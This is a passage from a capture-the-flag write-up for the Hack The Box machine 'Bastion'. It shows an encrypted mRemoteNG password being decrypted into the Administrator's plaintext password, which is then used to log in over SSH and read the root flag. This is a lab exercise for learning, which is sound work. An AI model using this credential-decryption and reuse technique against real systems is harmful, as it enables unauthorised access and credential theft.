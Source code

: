 From this, we can guess that the password field contains the encrypted version of the Administrator's password. Using the `mremoteng_decrypt.py`,

{% highlight bash %}
$ python mremoteng_decrypt.py aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
{% endhighlight %}

Neat ! We got the Administrator's password !

# root.txt

Lets see if we can login into the Administrator's account via `ssh`.

{% highlight bash %}
ssh Administator@bastion.htb
Administrator@bastion.htb's password: 

Microsoft Windows [Version 10.0.14393]                                           
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>cd Desktop

administrator@BASTION C:\Users\Administrator\Desktop>dir                         
 Volume in drive C has no label.                                                 
 Volume Serial Number is 0CB3-C487                                               

 Directory of C:\Users\Administrator\Desktop                                     

23-02-2019  10:40    <DIR>          .                                            
23-02-2019  10:40    <DIR>          ..                                           
23-02-2019  10:07                32 root.txt                                     
               1 File(s)             32 bytes                                    
               2 Dir(s)  11.348.910.080 bytes free                               

administrator@BASTION C:\Users\Administrator\Desktop>more root.txt               
9588XXXXXXXXXXXXXXXXXXXXXXXXXXXX

{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !
